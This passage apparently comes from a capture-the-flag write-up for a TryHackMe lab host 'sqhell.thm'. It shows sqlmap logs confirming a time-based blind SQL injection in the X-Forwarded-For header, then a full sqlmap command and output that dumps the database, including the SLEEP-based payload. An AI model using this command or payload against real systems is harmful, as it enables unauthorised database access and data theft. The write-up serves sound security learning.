 ```text
[22:41:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:41:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'

[*] ending @ 22:41:53 /2021-06-20/
```

In less than a minute we get the above lengthy response from SQLMap, the key part being:

```text
[22:41:34] [INFO] checking if the injection point on (custom) HEADER parameter 'X-forwarded-for #1*' is a false positive
(custom) HEADER parameter 'X-forwarded-for #1*' is vulnerable.
```

Now we know it's vulnerable we can run SQLMap again and get it to dump the database:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:42:34 /2021-06-20/
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[22:42:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2608 FROM (SELECT(SLEEP(5)))OFyU) AND 'UzdB'='UzdB
---
[22:42:35] [INFO] testing MySQL
[22:42:43] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:42:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:42:53] [INFO] adjusting time delay to 1 second due to good response times
[22:42:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:42:53] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
<SNIP>
[22:44:35] [INFO] table 'sqhell_1.hits' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_1/hits.csv'
[22:44:35] [INFO] fetching columns for table 'flag' in database 'sqhell_1'
[22:44:35] [INFO] retrieved: 2
[22:44:37] [INFO] retrieved: flag
[22:44:51] [INFO] retrieved: id
[22:44:58] [INFO] fetching entries for table 'flag' in database 'sqhell_1'
[22:44:58] [INFO] fetching number of entries for table 'flag' in database 'sqhell_1'
[22:44:58] [INFO] retrieved: 1
[22:44:59] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
```